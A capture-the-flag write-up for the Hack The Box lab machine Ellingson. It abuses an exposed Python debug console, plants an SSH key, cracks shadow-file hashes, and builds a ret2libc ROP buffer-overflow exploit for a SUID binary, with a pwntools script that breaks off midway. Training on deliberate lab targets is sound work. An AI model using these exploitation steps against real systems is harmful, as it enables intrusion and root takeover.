



hackthebox Ellingson
Released: May 2019 / Pwned: August 4th 2019 - [+] Solved whilst Active
The best bit of Ellingson is the binary exploit to reach root. Whilst not easy, or “basic†as some other htb users have called it, it's definitely a fundamental binary exploitation technique. You'll get an immense sense of achievement once you finally spawn that root shell for yourself.
Summary
• Read some articles on Ellingsong Corp's website
• Access an article that doesn't exist and find a python console
• Add your ssh public key to hal's authorized_keys file to gain ssh access
• Priv-esc to margo by finding a backup of shadow and cracking the included passwords
• Exploit a suid binary to spawn a root shell
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.139
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/ellingson# mkdir nmap
root@gotham:~/ctf/ellingson# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.139
...
Host is up (0.041s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:e8:f1:2a:80:62:de:7e:02:40:a1:f4:30:d2:88:a6 (RSA)
| 256 c8:02:cf:a0:f2:d8:5d:4f:7d:c7:66:0b:4d:5d:0b:df (ECDSA)
|_ 256 a5:a9:95:f5:4a:f4:ae:f8:b6:37:92:b8:9a:2a:b4:66 (ED25519)
80/tcp open http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-title: Ellingson Mineral Corp
|_Requested resource was http://10.10.10.139/index
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
...
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
A full port scan didn't reveal anything new.
Services running
- 22/ssh - nothing can be done here, for the time being
- 80/http - a website! this is our only place to look at the moment :)
Ports & Services
2) 80/http
http://10.10.10.139/
We're informed that someone has already infiltrated the system and planted a virus!
There's also a memo warning employees about common passwords.
Suspicious Network activity
Please make sure that your passwords are up to date and that you have read our carefully prepared memo on the most common passwords. Now as I so meticulously pointed out the most common passwords are. Love, Secret, Sex and God -The Plague
http://10.10.10.139/articles/2
If you check the articles, you'll learn that logging into a service more than 5 times in 1 minute will get you blocked.
This rules out brute-forcing.
Due to the recent security issues we have implemented protections to block brute-force attacks against network services. As a result if you attempt to log into a service more then 5 times in 1 minute you will have your access blocked for 5 minutes. Additional malicious activity may also result in your connection being blocked, please keep this in mind and do not request resets if you lock yourself out ... take the 5 minutes and ponder where you went wrong :)
You'll notice that the articles are categorised numerically.
What happens if we try to visit an article that doesn't exist?
http://10.10.10.139/articles/4

We get an error.
Gain Access
3) Exploit python console
If you read the text at the bottom of the page, you'll see that we can open a python console by mousing-over the frame and clicking the console icon.
For code execution mouse-over the frame you want to debug and click on the console icon on the right side.
I chose slug = articles[index-1]

Click the console icon. You should see a [console ready] status
]
We're now in a python console.
Import os so that we can run system commands:
>>> import os
To read the output of commands we need to direct the output to a file and read it using Path
Import Path:
>>> from pathlib import Path
At this point, we can run system commands by specifying a command in a variable and run it using os.system().
You can read the output of the command using Path("<path to file>").read_text()
>>> cmd = "cat /etc/passwd > /tmp/readme.txt"
>>> os.system(cmd)
0
>>> Path("/tmp/readme.txt").read_text()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin...
3a) Get shell as hal
Check which user we are
>>> cmd = "id > /tmp/readme.txt"
>>> os.system(cmd)
0
>>> Path("/tmp/readme.txt").read_text()
'uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)\n'
We're running as hal. Read his /home
>>> cmd = "ls -alh /home/hal > /tmp/readme.txt"
>>> os.system(cmd)
512
>>> Path("/tmp/readme.txt").read_text()
'/home/hal:\ntotal 36K\ndrwxrwx--- 5 hal hal 4.0K May 7 13:12 .\ndrwxr-xr-x 6 root root 4.0K Mar 9 19:21 ..\n-rw-r--r-- 1 hal hal 220 Mar 9 19:20 .bash_logout\n-rw-r--r-- 1 hal hal 3.7K Mar 9 19:20 .bashrc\ndrwx------ 2 hal hal 4.0K Mar 10 17:33 .cache\ndrwx------ 3 hal hal 4.0K Mar 10 17:33 .gnupg\n-rw-r--r-- 1 hal hal 807 Mar 9 19:20 .profile\ndrwx------ 2 hal hal 4.0K Mar 9 19:30 .ssh\n-rw------- 1 hal hal 865 Mar 9 19:30 .viminfo\n'
hal has a .ssh directory. We can get ssh access as hal by adding our attacking machine's public key to his authorized_keys file.
Read your attacking machine's public key.
root@gotham:~/ctf/ellingson# cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCqO4k...
Back on the python interpreter, echo your public key into hal's authorized_keys file.
>>> cmd = 'echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCqO4k..." >> /home/hal/.ssh/authorized_keys'
>>> os.system(cmd)
0
>>>
It worked!
ssh in as hal by providing your private key as authentication
root@gotham:~/ctf/ellingson# ssh hal@10.10.10.139 -i ~/.ssh/id_rsa
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)
...
hal@ellingson:~$
And we're hal on the system.
Priv-Esc
4) hal -> margo
What groups is hal part of?
hal@ellingson:~$ id
uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)
adm is an odd result.
Have a look at what files the group adm owns.
hal@ellingson:~$ find / -group adm 2>/dev/null
/var/backups/shadow.bak
/var/spool/rsyslog
...
A backup of shadow looks interesting.
hal@ellingson:~$ cat /var/backups/shadow.bak
...
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
Make a copy of shadow.bak on your attacking machine and crack the hashes using john. It takes a while.
If you have a GPU, use hashcat for speedier cracks.
root@gotham:~/ctf/ellingson# nano shadow.bak
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
root@gotham:~/ctf/ellingson# john --rules --wordlist=/usr/share/wordlists/rockyou.txt shadow.bak
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 32/32])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123 (theplague)
iamgod$08 (margo)
password123 for user theplague doesn't work but iamgod$08 for margo does.
Log in as margo and grab user.txt!
hal@ellingson:~$ su margo
Password: iamgod$08
margo@ellingson:/home/hal$ cd ~
margo@ellingson:~$ ls -l
total 4
-r-------- 1 margo margo 33 Mar 10 18:40 user.txt
margo@ellingson:~$ cat user.txt
d0ff9e3...
5) margo -> root
Check for any suid binaries on the system
margo@ellingson:~$ find / -perm -u=s 2>/dev/null
/usr/bin/at
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/garbage
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/chsh
...
/usr/bin/garbage is unusual.
margo@ellingson:~$ ls -alh /usr/bin/garbage
-rwsr-xr-x 1 root root 18K Mar 9 21:04 /usr/bin/garbage
It's a suid binary owned by root!
margo@ellingson:~$ /usr/bin/garbage
Enter access password: hey
access denied.
Check the strings contained in the binary and you'll find the password.
margo@ellingson:~$ strings /usr/bin/garbage
...
Enter access password:
N3veRF3@r1iSh3r3!
access granted.
access denied.
[+] W0rM || Control Application
....
But the binary isn't of any use to us even with the password.
However, this binary might be exploitable because it's taking user input.
If we submit 200 A's as the password, we can overflow the buffer and cause a segmentation fault, crashing the binary.
margo@ellingson:~$ garbage
Enter access password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
access denied.
Segmentation fault (core dumped)
We've found our priv-esc to root - overflow the buffer on this suid binary and spawn a root shell.
Binary Exploit
6) Binary Reconnaissance
We first need to run some reconnaissance on the binary so that we understand what we're targeting and of any protection mechanisms we might encounter.
Is the target system 32-bit or 64-bit?
margo@ellingson:~$ uname -mrs
Linux 4.15.0-46-generic x86_64
What distribution is running?
margo@ellingson:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.1 LTS"
NAME="Ubuntu"
VERSION="18.04.1 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.1 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
Is ASLR enabled? (Address Space Layout Randomisation)
margo@ellingson:~$ sysctl -a --pattern "randomize"
kernel.randomize_va_space = 2
margo@ellingson:~$ cat /proc/sys/kernel/randomize_va_space
2
Copy the binary to your attacking machine so that you can work with it later...
Make sure the machine you develop your exploit on is 64-bit.
root@city64:~/ctf/ellingson# scp margo@10.10.10.139:/usr/bin/garbage .
margo@10.10.10.139's password: iamgod$08
garbage 100% 18KB 35.5KB/s 00:00
Run gdb-peda and check for any protections the binary might have using checksec
root@city64:~/ctf/ellingson# gdb -q garbage
Reading symbols from garbage...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial
Reconnaissance Summary
• 64bit binary
• ASLR enabled
◦ All addresses within the binary are randomised each time it's run, so we can't hard-code addresses into our exploit
• NX enabled (non-executable stack)
◦ We can't drop code onto the stack and execute it
DISCLAIMER:
What's coming next is (most likely) confusing. This stuff is really hard to explain clearly and succinctly, without missing bits out and not writing a wall of text.
What's below is pretty much a wall of text. Apologies :/
INFO - How to bypass exploit protections?
In order to bypass ASLR and deal with the non-executable stack, our exploit is going to be a ROP chain that will leak the address of a function in libc from the GOT, the Global Offset Table.
Using this leaked address we can calculate libc's base address, and from there calculate the address of any function in libc that we need. In this case, setuid() and system(), which we can use to spawn a shell.
Bypass Summary
• NX - bypass using ROP gadgets
• ASLR - bypass by leaking a GOT address and calculating libc's base address
LONG-WINDED EXPLANATION OF ROP/ASLR/PLT AND GOT FOLLOWS.
You can just skip to the exploit script instead if you prefer :)
About ROP
ROP stands for Return-Oriented Programming.
It's essentially where you use “gadgetsâ€, instructions that already exist within the binary, to achieve what you want to do.
Normally we would use shellcode to run any instructions we want, but that technique isn't possible here due to NX (non-executable stack) being enabled. Therefore, we have to use gadgets.
More on ROP here - https://en.wikipedia.org/wiki/Return-oriented_programming
About PLT and GOT - Procedure Linkage Table and Global Offset Table
Because of ASLR (and because libraries are being dynamically linked). the memory location of library functions will change each time the binary is run.
This acts as a defense against attacks.
However, the binary itself still needs to know the location of library functions so that it can use them.
How to solve? - PLT and GOT
Because of this ability for the address of a library to change, binaries need a way to reliably reference libraries.
This is where the PLT and GOT come into play.
PLT - Procedure Linkage Table
◦ Has an entry for each library function in your binary, each of which contain a stub pointing to that function in the GOT table
GOT - Global Offset Table
◦ Holds a complete list of the memory address/location of every library function you're using in your program
Diagram of PLT and GOT
PLT Table GOT Table
puts() - 0x04 -------------> 0x04 - 0x385966298248 (where puts() is in memory)
printf() - 0x06 -------------> 0x06 - 0x152980360123 (where printf() is in memory)
About ASLR - Offsets to Functions in Libraries Remain Consistent
With ASLR enabled, a library's base address is randomised.
However, the offset to a function from the base address remains consistent.
For example
1st run
• libc's base address is 0x0000454443424100
• The offset to libc's system() function from the libc base address is 0x99 - this will remain consistent every time
• The libc system() function, on this run of the binary, lives at 0x0000454443424199
2nd run
• libc's base address has changed because of ASLR - 0x0000353433323100
• But the offset to libc system() is still 0x99
• On this run of the binary, libc system() lives at 0x0000353433323199
Leaking an Address from the GOT
Knowing that offsets to functions within a library remain consistent, if we can leak the address of a libc function from the GOT table, we can subtract its offset from the address we leak to find libc's base address.
Example
We leak the address of system() from the GOT - 0x0000454443424199
We've read libc on the target system and know that the offset to system() from libc's base address is 0x99
Therefore, to find libc's base address:
• leaked address - offset = libc's base address
• 0x0000454443424199 - 0x99 = 0x0000454443424100
• 0x0000454443424100 is libc's base addres
How to Use the Leaked Address to make ASLR Completely Redundant
Now that we know libc's base address, using the offsets in the libc library on the target system, we can calculate the location of any libc library function on the system.
e.g. You read the libc library on the target system and find the offset to setuid() - 0x78
libc's base address + setuid() offset = setuid() location
0x0000454443424100 + 0x78 = 0x0000454443424178
How to Exploit garbage - Payload Plan
1. A padding of N bytes to overwrite RIP
2. Create stage 1 payload
1) Pop stub for puts() in PLT into RDI register
2) Run puts(<stub>) to read puts()'s entry in the Global Offset Table and leak puts()'s memory address
3. Return to main() to reset the program/put it back into a working state
4. Using the leaked address, calculate
1) libc's base address
5. Using the newly-caculated libc base address, calculate
1) libc setuid() address (to run system() as root)
2) libc system() address (to run system commands)
3) libc “/bin/sh†string (to be used with system() so that we can spawn a shell)
6. Create stage 2 payload
1) pop 0 into RDI register
2) run setuid(0) (so that we can run system() as root)
3) pop “/bin/sh†string into RDI register
4) run system("/bin/sh") to spawn a shell
INFO - Extra notes
64-bit Calling Conventions
On 64-bit machines, parameters for functions are placed into registers, not the stack.
The parameters are put into registers in this order - RDI, RSI, RDX, RCX, R8, R9
If there are more than 6 parameters, extra parameters are placed onto the stack.
This is why, in the plan above, we pop the parameters for our functions into the RDI register, and why we need to find a pop rdi; ret gadget.
Why is setuid() needed?
Normally, to exploit a simple binary using system() you would just overflow the buffer, call system("/bin/sh") and be done with it.
That won't work here because we're exploiting a SUID binary.
Just because the binary has a SUID bit doesn't mean that it will run as root, just that it has the potential to run as root.
In order for system() to spawn a shell as root, you have to first run setuid(0) to set the user ID of the calling process (the garbage binary) to root. Next, when we run system(), this will ensure that system() runs as root and spawns a root shell.
7) Finding What We Need for the Exploit
As a summary of the long-winded explanation above, for the exploit we need to find
• the offset to overwrite RIP
• a pop rdi; ret gadget - so that we can pop function parameters into RDI
• puts()
◦ puts()'s PLT address - used to run the puts() function
◦ puts()'s GOT address - the parameter to be used with puts() which points to puts()'s GOT entry to print out/leak address
• main()'s PLT address - used to return to main() and put the program back into a function state ready for stage 2 payload
• offsets
◦ libc puts() offset - used to calculate libc's base address
◦ libc setuid() offset - used to calculate libc setuid() address
◦ libc system offset - used to calculate libc system() address
• A “/bin/sh†string - used with system() to spawn a shell
WHEW! THAT'S A LOT OF STUFF.
7a) Find offset to overwrite RIP
Open garbage with gdb-peda and send a 200 long, non-repeating string to the binary using pattern create 200.
root@city64:~/ctf/ellingson# gdb -q garbage
Reading symbols from garbage...(no debugging symbols found)...done.
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ run
Starting program: /root/ctf/ellingson/garbage
Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
access denied.
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7f67ac940804 (<__GI___libc_write+20>: cmp rax,0xfffffffffffff000)
RDX: 0x7f67aca138c0 --> 0x0
RSI: 0x5da9c0 ("access denied.\nssword: ")
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7ffeaacd67d8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x401618 (<auth+261>: ret)
R8 : 0x7f67aca18500 (0x00007f67aca18500)
R9 : 0x7f67aca12848 --> 0x7f67aca12760 --> 0xfbad2a84
R10: 0xfffffffffffff638
R11: 0x246
R12: 0x401170 (<_start>: xor ebp,ebp)
R13: 0x7ffeaacd68d0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x40160d <auth+250>: call 0x401050 <puts@plt>
0x401612 <auth+255>: mov eax,0x0
0x401617 <auth+260>: leave
=> 0x401618 <auth+261>: ret
0x401619 <main>: push rbp
0x40161a <main+1>: mov rbp,rsp
0x40161d <main+4>: sub rsp,0x10
0x401621 <main+8>: mov eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7ffeaacd67d8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7ffeaacd67e0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7ffeaacd67e8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7ffeaacd67f0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7ffeaacd67f8 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7ffeaacd6800 ("AuAAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7ffeaacd6808 ("AAYAAwAAZAAxAAyA")
0056| 0x7ffeaacd6810 ("ZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401618 in auth ()
With 64bit binaries, you'll never get an RIP overwrite like you would with 32bit buffer overflows.
Instead, you'll see that RIP crashes pointing to a return address
RIP: 0x401618 (<auth+261>: ret)
• The maximum address size on 64-bit machines is 0x00007FFFFFFFFFFF
• We can't overwrite RIP because our cyclic pattern creates a value much higher than the maximum address size - e.g. 0x4141414141414141
• In order to control RIP, we would need to write an address that's within the maximum 64-bit address size - e.g. 0x0000424242424242
You can examine the value which RSP points to (the value of the top of the stack), to determine the offset to overwrite RIP.
x/ to examine memory
x to examine the data in hex format
g to set the data type to giant words (64 bits)
$rsp to examine data from where RSP is pointing to
gdb-peda$ x/xg $rsp
0x7ffeaacd67d8: 0x41416d4141514141
And use pattern offset <value> to find the offset of the hex value 0x41416d4141514141
gdb-peda$ pattern offset 0x41416d4141514141
4702159612987654465 found at offset: 136
The offset to overwrite RIP is 136.
7a2) Test the RIP overwrite
Create a python script that generates your payload.
# garbage-pwn.py
payload = "A"*136 # offset to RIP
payload += "B"*6 # overwrite RIP with 6 Bs
print payload
Run the script and write the payload out to a text file.
root@city64:~/ctf/ellingson# python initial.py > initial.txt
And open garbage in gdb-peda and submit your payload.
You'll see that RIP gets overwritten with 0x424242424242
root@city64:~/ctf/ellingson# gdb -q garbage
Reading symbols from garbage...(no debugging symbols found)...done.
gdb-peda$ r < initial.txt
Starting program: /root/ctf/ellingson/garbage < initial.txt
Enter access password:
access denied.
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7fb15c74d804 (<__GI___libc_write+20>: cmp rax,0xfffffffffffff000)
RDX: 0x7fb15c8208c0 --> 0x0
RSI: 0x45a9c0 ("access denied.\nssword: \n\260\251E")
RDI: 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffaa0698d0 --> 0x7fffaa0699c0 --> 0x1
RIP: 0x424242424242 ('BBBBBB')
R8 : 0x7fb15c825500 (0x00007fb15c825500)
R9 : 0x7fb15c81f848 --> 0x7fb15c81f760 --> 0xfbad2a84
R10: 0xfffffffffffff638
R11: 0x246
R12: 0x401170 (<_start>: xor ebp,ebp)
R13: 0x7fffaa0699c0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x424242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffaa0698d0 --> 0x7fffaa0699c0 --> 0x1
0008| 0x7fffaa0698d8 --> 0x0
0016| 0x7fffaa0698e0 --> 0x401740 (<__libc_csu_init>: push r15)
0024| 0x7fffaa0698e8 --> 0x7fb15c68709b (<__libc_start_main+235>: mov edi,eax)
0032| 0x7fffaa0698f0 --> 0x0
0040| 0x7fffaa0698f8 --> 0x7fffaa0699c8 --> 0x7fffaa06a49f ("/root/ctf/ellingson/garbage")
0048| 0x7fffaa069900 --> 0x100040000
0056| 0x7fffaa069908 --> 0x401619 (<main>: push rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000424242424242 in ?? ()
gdb-peda$
Nice! We can control RIP :)
Now to find everything else needed for this exploit...
7b) Find a pop rdi; ret gadget
We need to find a pop rdi; ret gadget within the binary.
We can find this using gdb-peda on our attacking machine with a copy of the binary.
Open garbage with gdb-peda, set a breakpoint on main, and run the binary
root@city64:~/ctf/ellingson# gdb -q garbage
Reading symbols from garbage...(no debugging symbols found)...done.
gdb-peda$ break main
Breakpoint 1 at 0x40161d
gdb-peda$ run
Starting program: /root/ctf/ellingson/garbage
...
Breakpoint 1, 0x000000000040161d in main ()
Use ropsearch to find a pop rdi; ret gadget
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x0040179b : (b'5fc3') pop rdi; ret
Write it into your exploit - pop_rdi_addr = p64(0x0040179b)
7c) Find puts() PLT and GOT address
This needs to be done on the target system.
Use objdump.
margo@ellingson:~$ objdump -D /usr/bin/garbage | grep puts
0000000000401050 <puts@plt>:
401050: ff 25 d2 2f 00 00 jmpq *0x2fd2(%rip) # 404028 <puts@GLIBC_2.2.5>
401050 is puts()'s PLT address.
404028 is puts()'s GOT address.
7d) Find main() PLT address
This is also done on the target system with objdump.
margo@ellingson:~$ objdump -D /usr/bin/garbage | grep main
401194: ff 15 56 2e 00 00 callq *0x2e56(%rip) # 403ff0 <__libc_start_main@GLIBC_2.2.5>
0000000000401619 <main>:
401644: 0f 84 e6 00 00 00 je 401730 <main+0x117>
4016cd: 74 24 je 4016f3 <main+0xda>
0000000000401619 is the address of main() in the PLT.
You can get rid of the preceding 0s - 0x401619.
7e) Find function offsets in libc
Again, this needs to be done on the target system.
The 3 function offsets we need are puts(), setuid(), system().
You can get rid of the preceding 0s from all of these offsets.
puts() offset
margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
191: 00000000000809c0 512 FUNC GLOBAL DEFAULT 13 _IO_puts@@GLIBC_2.2.5
422: 00000000000809c0 512 FUNC WEAK DEFAULT 13 puts@@GLIBC_2.2
...
0x0809c0 is the offset to puts()
setuid() offset
margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep setuid
23: 00000000000e5970 144 FUNC WEAK DEFAULT 13 setuid@@GLIBC_2.2.5
0x0e5970 is the offset to setuid()
system() offset
margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
232: 0000000000159e20 99 FUNC GLOBAL DEFAULT 13 svcerr_systemerr@@GLIBC_2.2.5
607: 000000000004f440 45 FUNC GLOBAL DEFAULT 13 __libc_system@@GLIBC_PRIVATE
1403: 000000000004f440 45 FUNC WEAK DEFAULT 13 system@@GLIBC_2.2.5
0x04f440 is the offset to system()
7f) Find offset to a "/bin/sh" string
Again, this needs to be done on the target system.
margo@ellingson:~$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
1b3e9a /bin/sh
0x1b3e9a is an offset to a /bin/sh string in libc.
8) Write Exploit
We have everything we need for the exploit now.
Write it!
My exploit script is pretty well commented, so hopefully you can understand what's going on :)
from pwn import *
context(os="linux", arch="amd64") # set target system architecture
#context.log_level = 'DEBUG' # enable if you want debug/verbose output
s = ssh(host = '10.10.10.139', # remote connection info
user = 'margo',
password = 'iamgod$08')
# ----------------------------------------------------------
# Stage 1 - 1a) Leak address of puts() in Gloabl Offset Table
# 1b) return to main (to put program back into a functioning state)
puts_plt_addr = p64(0x401050) # objdump -D garbage | grep puts
puts_got_addr = p64(0x404028)
pop_rdi_addr = p64(0x0040179b) # gdb-peda, break main, run, ropsearch "pop rdi; ret"
main_plt_addr = p64(0x401619) # objdump -D garbage | grep main
payload = "A"*136 # offset to RIP
#Stage 1a - leak address of puts() by reading from GOT
payload += pop_rdi_addr # overwrite RIP
payload += puts_got_addr # pop puts() GOT address into RDI
payload += puts_plt_addr # run puts(puts_got_addr) to read value @ puts_got_addr in GOT and leak address
#Stage 1b - return to main
payload += main_plt_addr # set up for stage 2 - return to main to put exploit back into working state
p = s.process('/usr/bin/garbage') # start process with pwntools
p.sendline(payload) # send payload
p.recvuntil("denied.")
leaked_puts = p.recv()[:8].strip().ljust(8, "\x00") # receive leaked puts address from GOT <-- SYNTAX OF THIS LINE IS ABSOLUTELY CRUCIAL. ADDRESS IS TOTALLY DIFFERENT IF THIS LINE IS ALTERED
upack_leaked_puts = u64(leaked_puts) # unpack leaked puts into address
print "Leaked puts@GLIBC: " + hex(upack_leaked_puts)
#p.interactive()
# ----------------------------------------------------------
# Stage 2 - Calculate libc setuid() and libc system() address using leaked puts address
# 2a) run setuid(0)
# 2b) run system("/bin/sh") to spawn a shell!
libc_puts_offset = 0x0809c0 # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
libc_setuid_offset = 0x0e5970 # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep setuid
libc_system_offset = 0x04f440 # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
libc_binsh_offset = 0x1b3e9a # strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
null = p64(0x0)
libc_base_addr = upack_leaked_puts - libc_puts_offset
libc_setuid_addr = p64(libc_base_addr + libc_setuid_offset)
libc_system_addr = p64(libc_base_addr + libc_system_offset)
libc_binsh_addr = p64(libc_base_addr + libc_binsh_offset)
print "Calculated addresses:"
print "1 - libc base address: " + hex(libc_base_addr)
